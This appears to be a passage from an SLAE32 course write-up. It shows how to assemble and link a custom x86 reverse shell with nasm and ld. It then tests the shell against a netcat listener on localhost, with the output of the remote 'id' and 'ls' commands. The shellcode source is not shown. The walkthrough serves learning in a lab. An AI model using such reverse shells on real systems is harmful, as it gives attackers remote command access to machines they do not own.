 ## Testing the Reverse Shell

In order to test Reverse Shell, we need to compile it. Compilation process consists of 2 separate processes:

- Assembling: can happen with the `nasm` assembler, which assembles the input file (`.nasm`) and directs output to the output file (`.o`) if specified. It basically "translates" the `Assembly` code.
- Linking: can happen with the GNU linker `ld`, which combines a number of object and archive files, relocates their data and ties up symbol references. It basically provides information such as where the entry point of a program is. By default the entry point is `_start` but this can be changed.

The following `bash` script automates that process:

```bash
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -felf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```

The following command does the compilation and creates the executable `reverse`:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ ./compile.sh reverse
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

We test the Reverse Shell by creating a listener on port `4444` with `nc` in one terminal window and in another we execute the executable `reverse`. Then, back to the first we verify the incoming connection and run the commands `id` and `ls`.

1<sup>st</sup> window:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ nc -lvnp 4444
```

2<sup>nd</sup> window:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ ./reverse

```

1<sup>st</sup> window again:

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 35306)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
reverse
reverse-c
reverse-c.c
reverse.nasm
reverse.o
reverse.py
exit
geobour98@slae32-dev:~$
```
